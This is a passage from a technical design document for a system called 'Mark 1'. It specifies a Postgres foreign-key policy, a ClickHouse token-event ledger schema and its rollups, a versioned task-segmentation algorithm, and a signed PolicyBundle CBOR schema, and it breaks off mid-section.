| `test_append_only_holds_as_owner` | UPDATE and DELETE on `policy_bundles`, `epsilon_ledger`, `coverage_transitions` fail **even as `mark1_owner`** (trigger layer) and as every runtime role (privilege layer) — both controls checked independently, because a control that holds only through the other has already failed. |

## Entity-relationship overview

The whole Mark 1 Postgres schema, both parts. Tables above the federation boundary carry `tenant_id` + FORCE RLS; `org_verification` and the publication tables are the deliberate exceptions explained in their sections.



Every foreign key and its ON DELETE behaviour. The schema-wide default is RESTRICT because nearly every table is evidence — the single CASCADE is the single table that is not.

| From → To | ON DELETE | Why |
|---|---|---|
| `tenants.org_id → organizations` | RESTRICT | offboarding an org with live tenants must be a runbook, not a cascade |
| `org_verification.org_id → organizations` | RESTRICT | verification history is what the m-count's audit stands on |
| `devices.tenant_id → tenants` | RESTRICT | a device's enrollment record explains every receipt it origin-signed |
| `receipts.tenant_id → tenants` (part 2a) | RESTRICT | receipts are the product; nothing deletes evidence by side effect |
| `receipt_chain_heads.tenant_id → tenants` (part 2a) | RESTRICT | the head anchors the chain the witness attested |
| `witness_heads.tenant_id → tenants` (part 2a) | RESTRICT | an externally-witnessed hash with no local counterpart is an integrity alarm, not cleanup |
| `gold_sets.tenant_id → tenants` | RESTRICT | certificates cite these sets; the basis of a cert must outlive convenience |
| `gold_set_members.gold_set_id → gold_sets` | **CASCADE** | members are meaningless without their set, and labels are inputs, not evidence |
| `noise_certificates.tenant_id → tenants` | RESTRICT | a cert is the warrant behind admitted labels |
| `noise_certificates.verifier_id → verifier_registry` | RESTRICT | retiring a verifier must not orphan the certs that judged its output |
| `noise_certificates.gold_set_id → gold_sets` | RESTRICT | same: the measurement basis stays reconstructible |
| `corpus_admissions.tenant_id → tenants` | RESTRICT | admitted rows explain what entered the training corpus |
| `corpus_admissions.cert_id → noise_certificates` | RESTRICT | deleting the warrant would leave a label with no defense |
| `memory_artifacts.tenant_id → tenants` | RESTRICT | artifacts feed injection; erasure is the offboarding runbook |
| `memory_artifacts.cert_id → noise_certificates` | RESTRICT | admitted state cites its cert forever |
| `artifact_contributions.artifact_id → memory_artifacts` | RESTRICT | contributions are the k-count's evidence |
| `artifact_contributions.tenant_id → tenants` | RESTRICT | a tenant leaving must not silently deflate a k-count that already published |
| `artifact_contributions.org_id → organizations` | RESTRICT | same for the m-count |
| `publication_review_queue.(artifact_id, abstraction) → memory_artifacts` | RESTRICT | the composite FK binds the abstraction the invariant-exclusion CHECK reads |
| `artifact_publications.(artifact_id, abstraction) → memory_artifacts` | RESTRICT | a published body must trace to its source artifact permanently |
| `artifact_publications.review_id → publication_review_queue` | RESTRICT | who approved a publication is permanent record |
| `publication_spans.publication_id → artifact_publications` | RESTRICT | spans are the reconstruction proof of the body |
| `publication_span_producers.(publication_id, span_index) → publication_spans` | RESTRICT | producer rows are the per-span m-count evidence |
| `publication_span_producers.contribution_id → artifact_contributions` | RESTRICT | the proof chain from published span back to tenant production must never break |
| `tenant_privacy_budgets.tenant_id → tenants` | RESTRICT | the cap is contractual; it goes when the contract does, by hand |
| `epsilon_ledger.tenant_id → tenants` | RESTRICT | spent privacy budget is a legal record |
| `epsilon_ledger.publication_id → artifact_publications` | RESTRICT | a spend must always point at what it bought |
| `policy_bundles.tenant_id → tenants` | RESTRICT | the bundle history is what the transparency log attests |
| `bundle_channel_heads.tenant_id → tenants` | RESTRICT | the head is the anti-rollback anchor |
| `bundle_acks.device_id → devices` | RESTRICT | ACK history proves what a since-revoked device was running |
| `bundle_acks.(tenant_id, channel, seq) → policy_bundles` | RESTRICT | an ACK of a nonexistent bundle must be an error, not an orphan |
| `coverage_transitions.tenant_id → tenants` | RESTRICT | gaps stay attributable after any offboarding dispute begins |
| `coverage_transitions.device_id → devices` | RESTRICT | a revoked device's gaps still count against the band |
| `tvo_reports.tenant_id → tenants` | RESTRICT | issued reports are claims a customer may hold us to |
## ClickHouse — the token-event ledger

One wide table holds every M1P event. One table rather than a table per event family because every TVO query joins families by `(session_id, task_id)` — a star of narrow tables would force the query choke to emit joins across identically-keyed tables for no compression win. Family-specific remainders that carry no hot-path aggregate live in `payload` (canonical JSON). Unknown event types within a schema major are **not** projected into `payload`: per `08 §10.2` and `05 §2` stage 10 they are retained whole in the S3 landing object (which precedes decoding), skipped by projection, counted (`controld_ingest_ch_project_unknown_event_types_total`), kept as a checkpoint leaf, and re-projected on server upgrade. *(Reconciled 2026-09-15: this sentence previously said `payload` was the retain mechanism; the build follows 08/05 — an unknown body decodes to no arm, so there is nothing to serialise into `payload`, and the earlier code projected exactly that as a nameless diagnostic row.)*

ClickHouse is reachable **only** through `controld.query-choke`. Two ClickHouse users exist — `m1p_ingest` (INSERT only) and `m1p_query` (SELECT only) — and both credentials are held solely by `controld`. Every read goes through the choke's query builder, which appends the tenant predicate by construction (fuzz + negative tests on every PR). No human, no dashboard, no other service holds a ClickHouse credential; row policies are NOT the isolation mechanism (they would repeat the estate's decorative-RLS failure) — they are absent by design so nobody can mistake them for one.

```sql
CREATE DATABASE IF NOT EXISTS mark1;

CREATE TABLE mark1.m1p_events
(
    -- ── Identity + ordering ─────────────────────────────────────────────
    tenant_id        UUID                    CODEC(ZSTD(1)),          -- stamped by controld from token claims, never from the envelope
    occurred_at      DateTime64(6, 'UTC')    CODEC(Delta(8), ZSTD(1)),-- near-monotonic within a part → Delta collapses it
    session_id       UUID                    CODEC(ZSTD(1)),
    event_id         UUID                    CODEC(ZSTD(1)),          -- UUIDv7: dedupe key, spool cursor, receipt leaf — one identity, three layers
    seq              UInt64                  CODEC(Delta(8), ZSTD(1)),-- monotonic within a (session, epoch) → Delta; causal order is the PAIR below, never seq alone (dev clocks drift, so it is not occurred_at either)
    session_epoch    UInt32                  CODEC(Delta(4), ZSTD(1)),-- query-time causal order is the PAIR (session_epoch, seq), never seq alone: seq restarts at 1 on daemon reboot (§2). Not part of the table's ORDER BY — that is §21's key, and unalterable. Constant across a boot ⇒ Delta collapses it to nothing
    ingested_at      DateTime64(6, 'UTC') DEFAULT now64(6)
                                             CODEC(Delta(8), ZSTD(1)),-- the ReplacingMergeTree version column: latest server ingest wins
    device_id        UUID                    CODEC(ZSTD(1)),
    task_id          UUID DEFAULT toUUID('00000000-0000-0000-0000-000000000000')
                                             CODEC(ZSTD(1)),          -- zero-UUID sentinel, not Nullable: Nullable costs a mask subcolumn and poisons skip indexes
    task_seg_version LowCardinality(String)  CODEC(ZSTD(1)),          -- stamped on TaskOpen; §task_seg.v1 below

    -- ── Family + class ───────────────────────────────────────────────────
    event_type       LowCardinality(String)  CODEC(ZSTD(1)),          -- LowCardinality not Enum: adding an event family must never need a DDL mutation
    event_class      Enum8('billing' = 1, 'verdict' = 2, 'receipt' = 3, 'route' = 4, 'diagnostic' = 5)
                                             CODEC(ZSTD(1)),          -- Enum not LowCardinality: this set is closed by design and drives the TTL below. NOT the spool durability class — that is the two-value byte [16] the edge stamps (§6), which no ClickHouse column can reach back and set; {billing,verdict,receipt} are the billing-grade three, {route,diagnostic} are not
    agent            LowCardinality(String)  CODEC(ZSTD(1)),          -- claudecode|codex|gemini|…
    model            LowCardinality(String)  CODEC(ZSTD(1)),

    -- ── Usage (billing-grade) ────────────────────────────────────────────
    input_tokens                 UInt64      CODEC(T64, ZSTD(1)),     -- small ints with shared high zero bits → T64
    output_tokens                UInt64      CODEC(T64, ZSTD(1)),
    cache_creation_input_tokens  UInt64      CODEC(T64, ZSTD(1)),
    cache_read_input_tokens     UInt64       CODEC(T64, ZSTD(1)),
    cost_usd         Decimal64(8)            CODEC(ZSTD(1)),          -- exact money, never Float
    cost_basis       Enum8('' = 0, 'usd' = 1, 'quota' = 2) CODEC(ZSTD(1)),
    idem_key         FixedString(32)         CODEC(ZSTD(1)),          -- HMAC_tenant(session_id, message.id, request_id): the ~2.5× streaming-overcount defense

    -- ── Verdicts (vocabulary frozen at the type level) ───────────────────
    verdict          Enum8('' = 0, 'satisfied' = 1, 'violated' = 2, 'refused' = 3, 'error' = 4)
                                             CODEC(ZSTD(1)),          -- Enum ON PURPOSE: a fifth verdict value must fail the INSERT, not sneak in
    verdict_stage    Enum8('' = 0, 'provisional' = 1, 'certified' = 2, 'revised' = 3)
                                             CODEC(ZSTD(1)),
    p_satisfied      Float32                 CODEC(Gorilla, ZSTD(1)), -- posterior[4] as four columns: locks arity, feeds rollups without array unnesting
    p_violated       Float32                 CODEC(Gorilla, ZSTD(1)),
    p_refused        Float32                 CODEC(Gorilla, ZSTD(1)),
    p_error          Float32                 CODEC(Gorilla, ZSTD(1)),
    noise_cert_id    UUID                    CODEC(ZSTD(1)),

    -- ── Routing (C9) ─────────────────────────────────────────────────────
    propensity       Float64                 CODEC(Gorilla, ZSTD(1)), -- ε defaults 0 ⇒ propensity 1.0, logged honestly
    fidelity         Enum8('' = 0, 'wire_enforced' = 1, 'config_steered' = 2, 'advisory' = 3)
                                             CODEC(ZSTD(1)),
    bundle_seq       UInt64                  CODEC(Delta(8), ZSTD(1)),

    -- ── Receipts + coverage + shed accounting ────────────────────────────
    checkpoint_seq   UInt64                  CODEC(Delta(8), ZSTD(1)),
    inclusion_path   String                  CODEC(ZSTD(1)),          -- Merkle path to the checkpoint root; empty until checkpointed
    coverage_kind    Enum8('' = 0, 'enable' = 1, 'disable' = 2, 'bypass' = 3) CODEC(ZSTD(1)),
    coverage_duration_ms UInt64              CODEC(T64, ZSTD(1)),
    dropped_reason   LowCardinality(String)  CODEC(ZSTD(1)),          -- DropReason suffix, lowercased: spool_shed|crc_loss|gate_timeout|… LowCardinality not Enum8 — reasons grow additively inside m1p.v1, and a new one must land as data, not DDL
    dropped_durability_class Enum8('' = 0, 'billing_grade' = 1, 'diagnostic' = 2) CODEC(ZSTD(1)), -- Dropped.durability_class; Enum8 because THIS set is contractually closed at two (§3), values equal to the spool class byte
    dropped_quantity UInt64                  CODEC(T64, ZSTD(1)),

    -- ── Everything else ──────────────────────────────────────────────────
    payload          String                  CODEC(ZSTD(3)),          -- canonical JSON remainder; ZSTD(3): cold column, read rarely, compress harder

    INDEX idx_event_id event_id TYPE bloom_filter(0.01) GRANULARITY 4, -- point dedupe / receipt-leaf lookups off the ordering key's tail
    INDEX idx_task     task_id  TYPE bloom_filter(0.01) GRANULARITY 4, -- task drilldown without a session_id in hand
    INDEX idx_idem     idem_key TYPE bloom_filter(0.01) GRANULARITY 4
)
ENGINE = ReplacingMergeTree(ingested_at)
PARTITION BY toYYYYMM(occurred_at)
ORDER BY (tenant_id, toDate(occurred_at), session_id, event_id)
TTL toDateTime(occurred_at) + INTERVAL 90 DAY  DELETE WHERE event_class = 'diagnostic',
    toDateTime(occurred_at) + INTERVAL 760 DAY DELETE                 -- 25 months: covers a full billing-dispute year plus audit lookback; §Retention below
SETTINGS index_granularity = 8192;
```

Codec rationale, in one place: `Delta+ZSTD` for anything monotonic-within-a-part (`occurred_at`, `seq`, `bundle_seq`, `checkpoint_seq` — Delta turns a monotone stream into near-zero residuals); `T64` for small counters sharing high zero bits (token counts, quantities); `Gorilla` for slowly-varying floats (posteriors, propensities); `LowCardinality` for open enum-like strings (repertoire may grow without DDL); `Enum8` only where the value set is *contractually closed* (verdicts, classes, fidelity — an out-of-vocabulary value must be an insert error, not a new dictionary entry); plain `ZSTD(1)` for UUIDs (high entropy, nothing to model) and `ZSTD(3)` for the cold `payload` column.

`ReplacingMergeTree(ingested_at)` because the transport is at-least-once by design (spool replay, S3 re-ingest): duplicates are normal, and the row with the newest server-side `ingested_at` wins at merge time. Dedupe is *eventual* — the query choke's builder emits `GROUP BY event_id` / `LIMIT 1 BY event_id` forms rather than `FINAL` on hot paths, so correctness never waits on background merges.

**`async_insert=1, wait_for_async_insert=1`** are set in two places, deliberately redundant: (1) server-side, in the `m1p_ingest` user's settings profile (`users.d/m1p-ingest.yaml`) so a client bug cannot silently revert to synchronous small-part inserts; (2) per-connection in `controld.ingest`'s client settings, asserted at startup, so a misconfigured server is detected rather than tolerated. Together they remove the need for an event bus at pilot: the coalescing a broker would do (absorb many small edge batches into few large writes) happens server-side in the async-insert buffer, and `wait_for_async_insert=1` means controld's insert call returns only after the buffered data is durably in a part — so the at-least-once contract holds end-to-end with no Kafka/NATS in the path. Durability against ClickHouse loss doesn't come from the buffer at all: the batch was already acked to the device only after landing in S3 (the replay log), so the ledger is always reconstructible. NATS JetStream is inserted exactly when a second independent ledger consumer exists, not before.

## ADR-0001 on the record — the ordering key

**Decision:** `ORDER BY (tenant_id, toDate(occurred_at), session_id, event_id)` on `ReplacingMergeTree(ingested_at)`, `PARTITION BY toYYYYMM(occurred_at)`. This is the one irreversible decision in the analytics plane: a MergeTree `ORDER BY` cannot be altered in place, so changing it after production writes begin means rewriting the entire table. The ADR is signed before the first production write; this section is the full argument, written so it can be signed from this text.

**What the key optimises.** Every query the product actually runs is shaped "tenant X over date range D": TVO reports, waste rollups, coverage bands, per-session drilldowns, billing reconciliation. `tenant_id` first means the mandatory tenant predicate (which query-choke appends to *every* query by construction) always prunes to one contiguous key range — tenancy isolation and physical data locality are the same axis, so the isolation control is also the performance control. `toDate(occurred_at)` second gives coarse time pruning inside the tenant range while keeping a whole day of one session's events adjacent. `session_id` third clusters a session's events contiguously — per-session TVO is a single sequential range read. `event_id` last is the unique tiebreaker and, because it is UUIDv7 (time-prefixed), sorts near-chronologically within the session, which keeps Delta codecs effective and makes the ReplacingMergeTree dedupe granule-local.

**Fast shapes:** tenant + date-range aggregation (the MVs below); session drilldown given `(tenant, day)`; task reconstruction within a session; idempotent re-ingest (duplicate keys land in the same granule and collapse at merge).

**Slow shapes, named honestly:**
- *Cross-tenant fleet queries* (ops: "which tenants shed events today") scan every tenant's range for the day. Acceptable: these are internal, infrequent, and bounded by the date component.
- *Session lookup without a date* degrades to a tenant-wide scan. Mitigated by the convention that every session-scoped query carries the session's date range (mark1d knows it; the choke requires it), not by an index.
- *`event_id` point lookup* (receipt-leaf verification) — covered by the bloom-filter skip index, not the key.
- *A session that crosses UTC midnight* splits into two key ranges because `toDate` buckets by day. Deliberate trade: a coarser bucket would heal the split but blunt time pruning for the 99% of queries that are date-ranged; the choke widens session queries by ±1 day automatically.

**At 10× volume:** nothing changes. Monthly partitions stay in the hundreds-of-parts regime, granule pruning is logarithmic in parts, async-insert keeps part counts sane. **At 100× volume:** merge pressure and per-partition part counts become the constraint before the key does; the remedies are orthogonal to the ordering key — move `PARTITION BY` to `toYYYYMMDD` for hot months, then shard. Sharding key would be `tenant_id`, which is *compatible with this ordering key by construction* (tenant-first ordering makes tenant-hash sharding a pure split, no re-sort). That compatibility is a hidden argument for tenant-first that neither alternative below has.

**Alternatives considered:**
1. *`session_id` first* — optimises the single query shape we get for free anyway (session drilldown) and destroys everything else: session UUIDs are uniformly random (v4 semantics at the prefix even for v7 across sessions), so a tenant's data scatters across the whole keyspace — tenant-range pruning dies, compression ratios collapse (adjacent rows share nothing), and the tenant predicate becomes a full-scan filter. Rejected.
2. *A coarser time bucket* (`toStartOfWeek`, or no time component) — fewer midnight splits, better session contiguity, but date-range queries then prune only via the partition key (month granularity), a ~30× read amplification on "last 7 days" reports, which are the most common report. Rejected.
3. *A separate projection* (e.g. a session-first projection alongside the tenant-first base order) — doubles storage and merge cost for a query shape that has no demonstrated need at pilot. Crucially, projections **can be added later without a table rewrite** — which is exactly why one is not in the base design. The reversible option is deferred; only the irreversible one is being decided here.

**Cost of being wrong.** If the chosen key turns out wrong, the fix is a new table with the new `ORDER BY` and a full re-ingest **from the S3 replay log** — the ingest landing objects are the canonical, replayable event stream, so no data is lost, only time and money. What it costs: at pilot scale (~10⁷–10⁸ events, tens of GB of zstd batches) this is hours of one backfill worker and negligible S3 GET cost. At 100× (~10¹⁰ events, tens of TB) it is days of parallel backfill, four-to-five-figure S3 GET + transfer spend, and a dual-write window in `controld.ingest` (new table + old table) while the backfill catches up, then an atomic cutover in query-choke. Painful, bounded, and *possible* — which is the whole reason the S3-first landing exists. Without the replay log this decision would be unrecoverable, not merely expensive.

**Migration path, mechanically:** (1) create `m1p_events_v2` with the new key; (2) flip `controld.ingest` to dual-write; (3) replay S3 landings oldest-first into v2 (idempotent: `event_id` dedupe makes replays safe); (4) verify row-count and checksum parity per `(tenant, day)`; (5) point query-choke at v2; (6) drop v1 after a full retention cycle.

## Materialized views and rollups

Three rollups, one grain each: session, task, tenant-day. All three are `AggregatingMergeTree` targets fed by MVs — Aggregating rather than Summing because the verified-outcome counts need `uniqExactState` (a task must count once no matter how many `VerdictEvent` rows it emits across PROVISIONAL→CERTIFIED→REVISED stages), and mixing summed counters with unique states in one Summing table silently miscounts. **Ratios are never stored** — TVO is always computed at read time from summed numerator and merged denominator, because a stored ratio cannot be re-aggregated (avg-of-ratios ≠ ratio-of-sums).

A note on MV semantics that shapes everything here: a ClickHouse MV fires per *insert block*, before ReplacingMergeTree dedupe. The MV `WHERE` clauses therefore aggregate with `-If` combinators over stage-final rows only, and the read-time queries in `mark1-intel.tvo` re-verify against the base table for any number that leaves the building (certified reports); the MVs are the cheap first pass, not the audit path.

```sql
-- ── Per-session rollup ────────────────────────────────────────────────────
CREATE TABLE mark1.tvo_session
(
    tenant_id            UUID,
    day                  Date,
    session_id           UUID,
    agent                LowCardinality(String),
    tokens_in            AggregateFunction(sum, UInt64),
    tokens_out           AggregateFunction(sum, UInt64),
    tokens_cache_read    AggregateFunction(sum, UInt64),
    tokens_cache_create  AggregateFunction(sum, UInt64),
    cost_usd             AggregateFunction(sum, Decimal64(8)),
    tasks_opened         AggregateFunction(uniqExact, UUID),          -- uniqExact on task_id: exact, tenant-billable numbers, never HLL
    tasks_satisfied      AggregateFunction(uniqExactIf, UUID, UInt8), -- verdict='satisfied' AND stage final
    tasks_violated       AggregateFunction(uniqExactIf, UUID, UInt8),
    tasks_refused        AggregateFunction(uniqExactIf, UUID, UInt8),
    tasks_error          AggregateFunction(uniqExactIf, UUID, UInt8),
    tasks_unresolved     AggregateFunction(uniqExactIf, UUID, UInt8), -- TaskClose{reason=session_end, no verdict} — the honest denominator class
    dropped_billing      AggregateFunction(sum, UInt64)               -- Dropped{} quantities whose durability_class is billing_grade → coverage band input
)
ENGINE = AggregatingMergeTree
PARTITION BY toYYYYMM(day)
ORDER BY (tenant_id, day, session_id);

CREATE MATERIALIZED VIEW mark1.mv_tvo_session TO mark1.tvo_session AS
SELECT
    tenant_id,
    toDate(occurred_at)                                        AS day,
    session_id,
    any(agent)                                                 AS agent,
    sumState(input_tokens)                                     AS tokens_in,
    sumState(output_tokens)                                    AS tokens_out,
    sumState(cache_read_input_tokens)                          AS tokens_cache_read,
    sumState(cache_creation_input_tokens)                      AS tokens_cache_create,
    sumState(cost_usd)                                         AS cost_usd,
    uniqExactStateIf(task_id, event_type = 'TaskOpen')         AS tasks_opened,
    uniqExactStateIf(task_id, verdict = 'satisfied'
                          AND verdict_stage IN ('certified','revised')) AS tasks_satisfied,
    uniqExactStateIf(task_id, verdict = 'violated'
                          AND verdict_stage IN ('certified','revised')) AS tasks_violated,
    uniqExactStateIf(task_id, verdict = 'refused'
                          AND verdict_stage IN ('certified','revised')) AS tasks_refused,
    uniqExactStateIf(task_id, verdict = 'error'
                          AND verdict_stage IN ('certified','revised')) AS tasks_error,
    uniqExactStateIf(task_id, event_type = 'TaskClose'
                          AND payload_json_close_reason = 'session_end_no_verdict') AS tasks_unresolved,
    sumStateIf(dropped_quantity, event_type = 'Dropped'
                          AND dropped_durability_class = 'billing_grade') AS dropped_billing
FROM mark1.m1p_events
GROUP BY tenant_id, day, session_id;
```

(`payload_json_close_reason` is a `MATERIALIZED JSONExtractString(payload, 'close_reason')` column on the base table — extracted once at insert, so the MV never parses JSON at merge time.)

The `dropped_billing` predicate reads `dropped_durability_class`, **not `event_class`**: a `Dropped{}` row is itself a diagnostic-class event, and `event_class` describes the row, while `durability_class` describes the loss the row reports. Filtering the loss ledger on `event_class` would sum to zero forever — a coverage band that never narrows, which is the exact failure `Dropped{}` exists to prevent.

The **task rollup** (`mark1.tvo_task`, same engine, `ORDER BY (tenant_id, day, task_id)`) carries the same sums plus `task_seg_version` (from `TaskOpen`), the terminal `verdict`/`verdict_stage`, `first_open_at`/`last_close_at` (`minState`/`maxState(occurred_at)`), and `attempts` (`uniqExactState` of verdict-bearing turns) — it is the grain the waste taxonomy is computed at.

```sql
-- ── Tenant-day rollup: TVO + the deterministic waste taxonomy ─────────────
CREATE TABLE mark1.tvo_tenant_day
(
    tenant_id            UUID,
    day                  Date,
    task_seg_version     LowCardinality(String),               -- rollups are keyed by segmentation version; §task_seg.v1
    tokens_total         AggregateFunction(sum, UInt64),
    cost_usd             AggregateFunction(sum, Decimal64(8)),
    tasks_verified       AggregateFunction(uniqExact, UUID),   -- certified 'satisfied' only: the TVO denominator
    tasks_unresolved     AggregateFunction(uniqExact, UUID),
    retry_loop_tokens    AggregateFunction(sum, UInt64),
    reexploration_tokens AggregateFunction(sum, UInt64),
    over_model_tokens    AggregateFunction(sum, UInt64),
    observed_ms          AggregateFunction(sum, UInt64),       -- from CoverageTransition durations
    bypass_ms            AggregateFunction(sum, UInt64),
    disabled_ms          AggregateFunction(sum, UInt64),
    dropped_billing      AggregateFunction(sum, UInt64)
)
ENGINE = AggregatingMergeTree
PARTITION BY toYYYYMM(day)
ORDER BY (tenant_id, day, task_seg_version);
```

**The arithmetic each derived number computes** (read-time, in `mark1-intel.tvo`; every formula is deterministic — same ledger in, same number out):

- `TVO = sumMerge(tokens_total) / uniqExactMerge(tasks_verified)` — the headline. `tasks_unresolved` is reported alongside as its own class, never folded into either side: folding it into the denominator would flatter TVO with unverified work; dropping its tokens from the numerator would hide real spend.
- **`retry_loop_tokens`** = for each task, `sum(tokens of attempt n for n ≥ 2 where attempt n−1's fused verdict was 'violated')`. An *attempt* is the event span between consecutive verdict-bearing evaluations on the same `task_id` (attempt boundaries come from `VerdictEvent` rows, so this is pure ledger arithmetic). First attempts are never waste by definition — the taxonomy charges only the loop, not the work.
- **`reexploration_tokens`** = `sum(tokens of ToolUse events whose tool category ∈ {read, grep, list, glob} AND whose target's per-tenant HMAC-salted content digest ∈ the CortexInjection served-set for that session)` — i.e. tokens spent re-discovering what the ranked map already delivered. The join is digest-to-digest (both sides HMAC-salted with the same tenant key), so the computation never touches a path or an excerpt. This is the "tokens Cortex would have saved" column, and it is only claimable where a `CortexInjection` event actually exists — no counterfactual model, no estimate.
- **`over_model_tokens`** = for tasks with a certified `satisfied` verdict, `output_tokens_at_rung(r_used) − output_tokens_at_rung(r_cheapest_passing)` where `r_cheapest_passing` is the cheapest ladder rung **with an actual passing anchor-verified signal on this same task** (from shadow runs or a mid-task downgrade that passed). Where no cheaper rung was actually exercised, the column contributes **zero** — the deterministic taxonomy refuses to guess what a cheaper model *would* have done.
- **Coverage band** = `observed_ms / (observed_ms + bypass_ms + disabled_ms)` from `CoverageTransition` durations, then *narrowed* by `Dropped{}` accounting: the band's lower edge is `coverage × (1 − dropped_billing / (dropped_billing + events_billing_ingested))`. Shed or CRC-lost billing-grade events widen the band downward — a report never claims precision the capture layer didn't earn, and guarantee-grade issuance refuses below the coverage floor.

**Shapley attribution is deliberately absent.** Splitting saved tokens among verify/cortex/memory/route is a cooperative game, and the game definition (who the players are, what `v(S)` means for a coalition) is ADR-0003, unsigned. The deterministic taxonomy above ships regardless and stays forever as the audit-grade floor — Shapley, when it comes, is presentation on top of these columns, never a replacement for them.

## `task_seg.v1` — the TVO denominator

The denominator is a versioned, receipted **algorithm**, not a heuristic: every number the product will ever quote divides by it, so it is specified to the point where two independent implementations segment identical sessions identically. It runs in `mark1d` (the edge), because the merge rules reference files — and file paths exist only at the edge. Only the resulting `task_id` and `task_seg_version` ever leave the machine; the paths that informed the decision do not.

```
task_seg.v1 — normative rules, in evaluation order
────────────────────────────────────────────────────
R1  A task opens at the first user prompt of a session, and at every user
    prompt that R2 does not merge into an open task.
R2  MERGE rule: a user prompt within N = 3 assistant turns of the previous
    task's last activity, whose subsequent tool activity touches ≥ 1 file
    (by per-tenant HMAC-salted path digest) already touched by that task,
    is the SAME task. Both conditions required: proximity alone merges
    nothing; file overlap alone merges nothing.
R3  A certified or revised verdict CLOSES the task. A follow-up prompt that
    R2-matches a CLOSED task within N turns REOPENS it (same task_id, new
    attempt) — this is what makes retry loops one denominator entry, not
    several.
R4  Merges never cross a session boundary. SessionEnd force-closes every
    open task with close_reason = 'session_end_no_verdict' → the task
    enters the `unresolved` denominator class.
R5  `unresolved` tasks are their own reporting class: their tokens appear
    in the numerator report, they never count as verified outcomes, and
    they are never silently dropped. A later session touching the same
    files is a NEW task (R4), even if it "finishes the same work".
R6  N = 3 and the file-overlap predicate are PART OF the version. Changing
    either — or anything above — is a version bump, never an edit.
```

**Version stamping.** Every `TaskOpen` event carries `task_seg_version` (the M1P field exists exactly for this), and every rollup row is keyed by it (`tvo_tenant_day.task_seg_version` above). The version string is `task_seg.v1` — opaque, compared by equality, never parsed.

**Version bumps without restating history.** When `task_seg.v2` ships: (1) edges start stamping `v2` on new `TaskOpen`s from their bundle-directed activation date — old events are never re-stamped; (2) rollups naturally partition by version, so a report period spanning the cutover shows two labeled series, never one silently-blended number; (3) if a tenant wants history restated under `v2`, that is an explicit **re-segmentation job**: replay the tenant's ledger through the `v2` segmenter into a *new* rollup keyed `v2-restated`, covered by its own receipt (same per-event receipt class as corpus exports), leaving the `v1` rollups untouched and the original receipts valid. History is append-only; reinterpretation is a new, receipted artifact — a restated number that silently replaced the original would make every previously-issued report unverifiable.

**Worked examples — three ambiguous sessions:**

1. *Same window, different files.* User: "fix the auth timeout bug" → agent edits `auth/session.go`, anchors pass, certified `satisfied`. Two turns later: "also update the changelog" → agent edits `CHANGELOG.md`. **Two tasks.** R2's proximity condition holds (2 ≤ N) but the file-overlap condition fails — `CHANGELOG.md` was never touched by task 1. TVO counts two verified outcomes; merging them would deflate the denominator and flatter nobody honestly.
2. *The retry rephrase.* User: "fix the flaky test" → agent edits `tests/test_sync.py`, fused verdict `violated`. One turn later: "no — the race is in the fixture, look at conftest" → agent edits `tests/conftest.py` *and* `tests/test_sync.py` again. **One task, second attempt.** R3 reopens: proximity holds (1 ≤ N) and `test_sync.py` overlaps. The second attempt's tokens land in `retry_loop_tokens` (the previous attempt's verdict was `violated`). This is the rule doing its real job: a retry loop is one outcome bought expensively, not three outcomes bought cheaply.
3. *The overnight orphan.* User asks for a refactor at 18:40, agent works across `pkg/router/*.go`, user closes the laptop mid-run — no verdict ever fires. SessionEnd (R4) closes the task `unresolved`. Next morning a new session finishes the refactor on the same files and certifies `satisfied`. **Two tasks:** yesterday's is permanently `unresolved` (its tokens reported in that class), today's is one verified outcome. R4 is deliberately blunt here — a cross-session merge rule would need to bound *how far back* to look, turning the denominator into a function of retention windows and making TVO drift as old data ages out. Blunt and stable beats clever and unreproducible.

## PolicyBundle v1 — the canonical CBOR schema

Canonically-encoded CBOR (RFC 8949 §4.2.1 deterministic encoding — definite lengths, sorted map keys) so that a section's bytes are a pure function of its content and section signatures are stable across encoders. Signatures are **section-split**: each of the six sections is signed independently (Ed25519, KMS-resident keys, one key per section class), so a compromise of, say, the cortex-budget key cannot alter gate behavior. `mark1-policy` (Rust) is the reference decoder; the Go decoder in `mark1d` is validated against shared conformance vectors.

```cddl
policy-bundle = {
    schema:      "policy_bundle.v1",
    tenant_id:   uuid,
    channel:     tstr,                 ; e.g. "stable" | "canary"
    seq:         uint,                 ; monotonic per (tenant, channel); edge rejects seq <= last-accepted (anti-rollback)
    issued_at:   time,
    max_age:     uint,                 ; seconds; past it the edge falls to conservative built-in defaults (fail-static floor)
    prev_hash:   bstr .size 32,        ; SHA-256 of the previous bundle's canonical bytes — bundles chain like receipts
    sections:    sections,
    signatures:  { + section-name => signature },
    inclusion:   transparency-proof,   ; transparency-log inclusion proof; edge verifies before accepting
}

section-name = "verify" / "route" / "memory" / "cortex" / "gates" / "agent_maps"

; DECISION D-BF (lead, binding). `transparency-proof` was REFERENCED by the
; envelope above and never DEFINED — the one field carrying the whole
; "verify Omium rather than trust Omium" claim had no wire form in this
; document. Both decoders therefore invented one, which is how two independent
; implementations come to agree on something neither of them read from a spec.
; The rule below is exactly what `mark1-policy::verify_and_decode` enforces:
; four keys, `strict_keys`, no extras and no omissions.
transparency-proof = null / {
    leaf_index: uint,                  ; 0-based index of this bundle's leaf in the log
    tree_size:  uint,                  ; size of the tree the proof targets
    path:       [* bstr .size 32],     ; RFC 6962 audit path, leaf upward; empty is legal for a single-leaf tree
    root:       bstr .size 32,         ; MUST equal the edge's PINNED head root — see below
}

; Three properties the CDDL cannot express, all enforced by the decoder:
;
;   a. `null` is legal at `seq == 0` AND NOWHERE ELSE. Bundle zero is local and
;      pre-log (D-P), and the carve-out is a literal `0` in the match, never a
;      configuration flag. At `seq > 0` a null or absent proof rejects with
;      M1E-3003.
;   b. THE LEAF IS THE BUNDLE BODY: SHA-256 over the canonical map MINUS its
;      `inclusion` entry. A transparency-log leaf cannot commit to the proof of
;      its own inclusion, so `inclusion` is also the one envelope field the
;      D-Q signing structure below excludes.
;   c. `root` IS CHECKED, NOT TRUSTED (D-S). It must equal the root of the head
;      the edge has independently pinned; a proof that merely reproduces the
;      root it shipped with proves nothing, and verifying against a
;      bundle-supplied root is precisely what made M1E-3003 decorative before
;      D-S. No pinned head at `seq > 0` ⇒ refuse and keep last-known-good;
;      `tree_size` equality is subsumed by root equality but is compared
;      separately so a mismatched checkpoint is NAMED rather than walked.

signature = {
    key_id:  tstr,                     ; "ed25519:" + hex(sha256(pub)[..8])
    sig:     bstr .size 64,            ; over the D-Q signing structure below — NOT a bare concatenation
}

; DECISION D-Q (lead, binding). The signing input was
; `canonical-CBOR(section) || tenant_id || channel || seq`. That form has three
; defects, all found by adversarial review before any bundle was ever published:
;
